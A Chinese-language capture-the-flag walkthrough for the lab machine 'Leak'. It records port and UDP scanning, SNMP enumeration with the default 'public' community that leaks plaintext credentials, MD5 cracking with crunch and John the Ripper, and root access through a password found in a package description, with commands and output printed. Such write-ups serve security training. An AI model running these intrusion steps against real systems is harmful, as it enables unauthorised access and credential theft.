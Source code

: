 ## 靶机信息

- **IP 地址:** `192.168.205.161`
- **攻击机:** `192.168.205.128`

---

## 一、信息收集与服务枚举

首先，对目标主机进行全端口 TCP 扫描，以确定开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ nmap -p- 192.168.205.161                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-01 05:49 EDT
Nmap scan report for 192.168.205.161
Host is up (0.00019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:86:21:F9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.39 seconds
```

扫描结果显示，目标开放了 **22 (SSH)** 和 **80 (HTTP)** 两个端口。

接着，访问 80 端口的 Web 服务，发现是一个模仿 Kali Linux 终端的静态页面，未发现直接可利用的功能。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl 192.168.205.161       
<!DOCTYPE html>
<html lang="en">
...
```

使用 `dirsearch` 和 `gobuster` 对网站目录进行扫描，未发现除主页外的其他有用路径。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ dirsearch -u http://192.168.205.161               
...
Task Completed
                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ gobuster dir -u 192.168.205.161 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html,zip -t 64
...
/index.html           (Status: 200) [Size: 15740]
...
```

由于 TCP 扫描未发现明显突破口，接下来对目标进行 UDP 扫描，寻找其他可能的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ nmap -sU --top-port 100 192.168.205.161
...
PORT    STATE SERVICE
161/udp open  snmp
...
```

UDP 扫描发现 **161 (SNMP)** 端口开放，这是一个关键发现。SNMP 服务常因配置不当而泄露大量敏感信息。

## 二、SNMP 信息泄露与漏洞利用

尝试使用默认的 community string `public` 来读取 SNMP 信息。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ snmpwalk -v2c -c public 192.168.205.161
...
```

`snmpwalk` 返回了海量信息。为了快速定位有用数据，使用 `grep` 过滤包含 `pass` 的行。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ snmpwalk -v2c -c public 192.168.205.161|grep "pass"
iso.3.6.1.2.1.25.4.2.1.4.331 = STRING: "leak-service --login Shinozaki --pass ShinozakiAi"
iso.3.6.1.2.1.25.6.3.1.2.13 = STRING: "base-passwd_3.5.46_amd64"
iso.3.6.1.2.1.25.6.3.1.2.480 = STRING: "passwd_1:4.5-1.1_amd64"
```

在系统进程信息中发现了一个惊人的信息泄露：一个名为 `leak-service` 的服务启动时，以明文形式传递了登录凭证 `Shinozaki:ShinozakiAi`。

同时，在 `snmpwalk` 的输出中还发现了域名信息 `admin@sunset.leak.dsz`。将 `leak.dsz` 和 `sunset.leak.dsz` 添加到本地 `/etc/hosts` 文件中，以便后续测试。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ sudo vim /etc/hosts             
...
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ tail -n 1 /etc/hosts                                    
192.168.205.161 leak.dsz sunset.leak.dsz
```

再次对新发现的域名进行目录扫描，`sunset.leak.dsz` 域名下发现了一个 `/manager` 路径，访问后需要认证。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ dirsearch -u http://sunset.leak.dsz 
...
[05:56:17] 301 -  320B  - /manager  ->  http://sunset.leak.dsz/manager/
[05:56:17] 401 -   24B  - /manager/
...
```

是一个登录窗口。使用前面泄露的凭证 `Shinozaki:ShinozakiAi` 尝试登录，成功进入后台。在后台页面中，发现了ssh用户 `ai` 的密码 MD5 哈希。

![image-20250701180035946](https://7r1umphk.github.io/image/20250701180036271.webp)

- **用户:** `ai`
- **MD5 Hash:** `d21715210cb6224f9ff4c075a8906fe9`

## 三、获取初始访问权限

现在，我们需要破解这个 MD5 哈希。根据页面提示，使用 `crunch` 生成一个以 `baba` 开头的8位密码字典。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ crunch 8 8 -t baba@@@@ -o wordlist.txt
...
```

将哈希保存到文件 `hash` 中，并使用 `John the Ripper` 和刚生成的字典进行破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat hash                              
ai:d21715210cb6224f9ff4c075a8906fe9
                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --format=raw-md5 --wordlist=wordlist.txt hash
...
babadawo         (ai)     
...
Session completed. 
```

成功破解密码为 `babadawo`。

使用获取到的凭证 `ai:babadawo` 尝试 SSH 登录。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh ai@192.168.205.161
ai@192.168.205.161's password: 
...
Last login: Tue Jul  1 05:13:09 2025 from 192.168.205.128
ai@Leak:~$
```

登录成功！现在获取 `user.txt`。

```bash
ai@Leak:~$ cat user.txt 
flag{user-13421fec-559d-11f0-a1af-5f1558743b4d}
```

成功拿到用户 flag。

## 四、权限提升

为了提升权限，首先查看当前系统上安装的软件包，特别是寻找非标准的或自定义的包。

```bash
ai@Leak:~$ dpkg -l |grep "leak"
ii  leak-date                     1.0-1                                       amd64        Simple date and time display utility
ii  liblsan0:amd64                10.2.1-6                                    amd64        LeakSanitizer -- a memory leak detector (runtime)
```

发现一个名为 `leak-date` 的可疑软件包。查看其详细信息。

```bash
ai@Leak:~$ dpkg -s leak-date
Package: leak-date
Status: install ok installed
Priority: optional
Section: utils
Installed-Size: 500
Maintainer: Security Admin <admin@leak.dsz>
Architecture: amd64
Version: 1.0-1
Description: Simple date and time display utility
 This package provides a minimal CLI utility to display
 the current system date and time. Ideal for scripts and
 system monitoring. SECURITY NOTICE: System debug token
 IMKCFRunLoopWakeUpReliable for root access.
```

在软件包的描述信息中，发现了一条至关重要的安全提示：`SECURITY NOTICE: System debug token IMKCFRunLoopWakeUpReliable for root access.`。这串字符 `IMKCFRunLoopWakeUpReliable` 极有可能就是 root 用户的密码。

使用 `su -` 切换到 root 用户，并输入这串字符作为密码。

```bash
ai@Leak:~$ su - 
Password: 
root@Leak:~#
```

成功切换到 root 用户！现在读取最终的 root flag。

```bash
root@Leak:~# cat /root/root.txt 
flag{root-357d3d08-5598-11f0-a27e-639fd7e7110b}
```